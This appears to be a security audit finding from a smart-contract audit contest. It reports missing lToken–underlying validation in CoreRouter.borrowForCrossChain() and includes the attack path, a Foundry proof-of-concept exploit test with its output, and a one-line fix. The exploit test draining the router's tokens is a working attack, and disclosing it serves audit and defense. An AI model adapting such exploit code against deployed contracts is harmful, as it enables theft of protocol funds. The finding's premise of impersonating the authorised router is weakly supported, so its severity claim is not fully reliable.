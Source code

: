 Late Pickle Locust

Medium

# CoreRouter allows token theft via spoofed lToken and underlying pair

### Summary

The missing validation in CoreRouter.borrowForCrossChain() will cause unauthorized token transfers for the protocol treasury as an attacker will spoof a lToken/underlying pair and extract tokens from the router using borrowForCrossChain.

### Root Cause

In [CoreRouter.sol](https://github.com/sherlock-audit/2025-05-lend-audit-contest-MihV1c/src/LayerZero/CoreRouter.sol):412, the function borrowForCrossChain() transfers _amount of _destUnderlying to _borrower without checking if _destUnderlying is the real underlying of _destlToken.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L195-L207

### Internal Pre-conditions

1. Admin must call setCrossChainRouter() to assign a cross-chain router.

2. The router contract must hold a balance of IERC20 tokens (e.g., from a previous fund or failed transfer)

### External Pre-conditions

1. No oracle or external precondition required.

2. Only that the cross-chain router executes the call with spoofed parameters.

### Attack Path

1. Attacker deploys a fake lToken that implements borrow() and returns 0.

2. Attacker impersonates the cross-chain router (or calls from its address if misconfigured).

3.  Calls borrowForCrossChain(attacker, amount, fakeLToken, victimToken) with a mismatch between the lToken and underlying.

4. The router blindly borrows using the lToken and transfers the victimToken (which it holds) to the attacker.

### Impact

The protocol treasury suffers an approximate loss equal to the token balance held by CoreRouter. The attacker gains these funds without owning any valid collateral or debt.



### PoC

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.23;

import "forge-std/Test.sol";
import {CoreRouter} from "../src/LayerZero/CoreRouter.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract DummyToken is IERC20 {
    string public name = "Dummy Token";
    string public symbol = "DUM";
    uint8 public decimals = 18;
    uint256 public totalSupply = 1e24;

    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;

    constructor() {
        balanceOf[msg.sender] = totalSupply;
    }

    function transfer(address to, uint256 amount) public override returns (bool) {
        require(balanceOf[msg.sender] >= amount, "Insufficient");
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
        return true;
    }

    function approve(address spender, uint256 amount) public override returns (bool) {
        allowance[msg.sender][spender] = amount;
        return true;
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        require(balanceOf[from] >= amount, "Insufficient");
        require(allowance[from][msg.sender] >= amount, "No allowance");
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
        allowance[from][msg.sender] -= amount;
        return true;
    }
}

contract DummyLErc20 is DummyToken {
    function borrow(uint256) external pure returns (uint256) {
        return 0;
    }
}

contract DummyLendStorage {
    function lTokenToUnderlying(address) external view returns (address) {
        return address(0xBEEF); // spoofed token address
    }
}

contract CoreRouterTest is Test {
    CoreRouter public router;
    DummyLErc20 public dummyLToken;
    DummyToken public dummyToken;

    function setUp() public {
        DummyLendStorage lendStorage = new DummyLendStorage();
        dummyLToken = new DummyLErc20();
        dummyToken = new DummyToken();

        router = new CoreRouter(address(lendStorage), address(0xBEEF), address(0xCAFE));
        router.setCrossChainRouter(address(this));

        dummyToken.transfer(address(router), 1e18); // fund router
    }

    function testExploitBorrowForCrossChain() public {
        uint256 preBalance = dummyToken.balanceOf(address(this));
        emit log("=== Exploit Simulation Start ===");
        emit log_named_address("Attacker", address(this));
        emit log_named_address("Router", address(router));
        emit log_named_address("Claimed lToken", address(dummyLToken));
        emit log_named_address("Claimed underlying token", address(dummyToken));
        emit log_named_uint("Attacker balance before exploit", preBalance);

        router.borrowForCrossChain(address(this), 1e18, address(dummyLToken), address(dummyToken));

        uint256 postBalance = dummyToken.balanceOf(address(this));
        emit log_named_uint("Attacker balance after exploit", postBalance);
        emit log("=== Exploit Simulation End ===");

        assertEq(postBalance - preBalance, 1e18, "Attacker did not receive expected tokens from router");
    }
}




 Attacker: 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
  Router: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9
  Claimed lToken: 0x2e234DAe75C793f67A35089C9d99245E1C58470b
  Claimed underlying token: 0xF62849F9A0B5Bf2913b396098F7c7019b51A820a
  Attacker balance before exploit: 999999000000000000000000
  Attacker balance after exploit: 1000000000000000000000000
  === Exploit Simulation End ===

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.35ms (1.06ms CPU time)


### Mitigation

Validate lToken–underlying pair.

Add a check to ensure the _destUnderlying matches the actual underlying of _destlToken:
require(
    lendStorage.lTokenToUnderlying(_destlToken) == _destUnderlying,
    "Mismatched lToken and underlying"
);
